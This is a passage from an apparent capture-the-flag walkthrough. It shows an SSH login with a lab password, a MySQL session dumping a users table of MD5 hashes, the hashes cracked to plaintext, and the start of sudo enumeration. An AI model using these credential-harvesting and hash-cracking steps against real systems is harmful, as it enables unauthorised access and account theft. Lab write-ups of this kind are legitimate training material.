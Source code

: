 ```
anurodh@10.10.204.221's password: !d0ntKn0wmYp@ssw0rd
```
Currently we cannot do more, but we are inside the server and remember that we got some database information early in the `index.php` page of `/var/www/files` folder. So, let's try to connect to the database and see what we can find:
```
mysql -u root -p -h localhost webportal

Enter password: !@m+her00+@db

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+

mysql> use webportal
Database changed

mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+

mysql> DESCRIBE users;
+-----------+--------------+------+-----+---------+----------------+
| Field     | Type         | Null | Key | Default | Extra          |
+-----------+--------------+------+-----+---------+----------------+
| id        | int(11)      | NO   | PRI | NULL    | auto_increment |
| firstname | varchar(100) | YES  |     | NULL    |                |
| lastname  | varchar(100) | YES  |     | NULL    |                |
| username  | varchar(100) | YES  |     | NULL    |                |
| password  | varchar(100) | YES  |     | NULL    |                |
+-----------+--------------+------+-----+---------+----------------+

mysql> SELECT * FROM users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```
These hashes are MD5. Let's crack them by using CrackStation and we get:
```
7e53614ced3640d5de23f111806cc4fd:masterpassword
686216240e5af30df0501e53c789a649:dontaskdonttell
```
I'm not sure if all these secrets are useful for us. Going back to our SSH session, run:
```
sudo -l

Matching Defaults entries for apaar on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User apaar may run the following commands on ubuntu:
```